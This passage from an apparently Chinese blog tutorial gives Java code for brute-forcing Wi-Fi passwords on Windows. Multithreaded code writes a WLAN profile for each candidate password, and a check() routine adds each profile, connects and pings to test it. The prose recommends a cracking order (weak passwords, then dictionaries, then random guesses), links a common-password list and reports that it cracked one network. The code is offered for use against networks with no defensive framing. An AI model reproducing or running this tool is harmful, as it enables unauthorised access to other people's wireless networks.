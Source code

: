 ```
                    threadPool.execute(genThread);
                }
            } else {
                break outer;
            }
            counter++;
        }
    }
}

class GenThread implements Runnable {

    private String ssid = null;
    private String password = null;

    GenThread(String ssid, String password) {
        this.ssid = ssid;
        this.password = password;
    }

    public void run() {
        String profileContent = Profile.PROFILE.replace(Profile.WIFI_NAME, ssid);
        profileContent = profileContent.replace(Profile.WIFI_PASSWORD, password);
        FileUtils.writeToFile(Connector.PROFILE_TEMP_PATH + "\\" + password + ".xml", profileContent);
    }
}
```

这儿为了加快文件生成速度，我开启了多线程。个人实际感受，如果只是几千到几万个的话，其实多线程不多线程，并没有多大区别，真正的区别在于后面尝试连接的时候。

需要哪些密码可以自己现在网上找一些字典来跑，建议顺序是 常用弱口令 => 字典面 => 随机密码（到了随机密码这儿，意义也不大了）。这儿给出一个常见弱口令的[下载连接](/doc/6000常用密码字典.txt)。反正我只用这个弱口令破解过一个WIFI。

# 四、遍历校验配置文件

接下来就是最耗时的一步了，一个个密码去校验。关键代码如下

```
/**
 * 校验WLAN配置文件是否正确
 * <p>
 * 校验步骤为：
 * ---step1 添加配置文件
 * ---step3 连接wifi
 * ---step3 ping校验
 */
public synchronized boolean check(String ssid, String password) {
    System.out.println("check : " + password);
    try {
        String profileName = password + ".xml";
        if (addProfile(profileName)) {
            if (connect(ssid)) {
                Thread.sleep(50);
                if (ping()) {
                    return true;
                }
            }
        }
    } catch (InterruptedException e) {
        e.printStackTrace();
    }
    return false;
}
```